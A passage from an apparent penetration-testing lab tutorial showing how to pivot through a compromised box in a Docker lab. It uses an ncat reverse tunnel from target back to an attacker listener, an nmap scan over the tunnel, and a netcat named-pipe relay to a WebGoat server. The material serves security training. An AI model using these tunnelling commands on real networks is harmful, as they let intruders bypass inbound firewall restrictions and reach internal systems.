     Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds

### Reverse tunnel a single port with ncat

ncat can also be used to tunnel a single port. In this case, we are using a reverse reach back to connect from target -> attacker. This may be required with some network setups that block incoming connections but allow outgoing.

    # On attacker / metasploit machine
    $ docker exec -it pivots_metasploit_1 /bin/bash
    root@12f888991729:/$ ncat -lv --broker -m2 8080
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: SHA-1 fingerprint: DDD9 4DF0 A7D6 3F08 DB62 51C7 4358 04C6 81BF F05A
    Ncat: Listening on :::8080
    Ncat: Listening on 0.0.0.0:8080

    # On ssh / box to pivot from
    $ ssh pentester@localhost -p 20022
    pentester@localhost's password: 
    pentester@47ab62bc2f3d:~$ ncat -v metasploit 8080 -c "ncat -v webgoatlocal 8080"
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Connected to 172.21.0.2:8080.

    ## Attacker machine on a separate bash session - use wget to retrieve page
    ## I use nmap here, but I can only scan port 8080.
    root@12f888991729:/$ nmap -sS -P0 -p8080 localhost

    Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-19 13:54 UTC
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000098s latency).
    Other addresses for localhost (not scanned): ::1

    PORT     STATE SERVICE
    8080/tcp open  http-proxy

    Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds

### Tunnel with netcat

Netcat is similar, but the connection will close on a variety of conditions and need to be restarted, generally after a full connection, including one full HTTP request.

    # Make backpipe to pass data around
    mknod pivot p
    # Setup the listener on pivot machine - forward traffic the
    # pivot machine receives on port 8080 to the webgoat server 
    # port 8080
    nc -l -p 8080 0<pivot | nc webgoatlocal 8080 1>pivot
